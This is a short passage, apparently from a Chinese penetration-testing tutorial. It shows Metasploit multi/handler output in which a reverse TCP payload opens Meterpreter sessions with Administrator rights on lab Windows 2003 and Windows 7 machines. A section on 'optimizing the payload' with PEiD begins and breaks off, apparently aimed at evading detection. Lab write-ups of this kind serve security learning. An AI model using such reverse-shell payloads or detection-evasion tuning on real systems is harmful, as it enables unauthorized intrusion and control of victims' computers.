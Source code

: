 ### 第一次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。

![](/img/542ba22b5fc53ca130875f92d4bef49e.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > 
```

### 第二次优化payload：

载入PEID  
![](/img/d176f010a1d7452d445b3104d0abeadc.jpg)
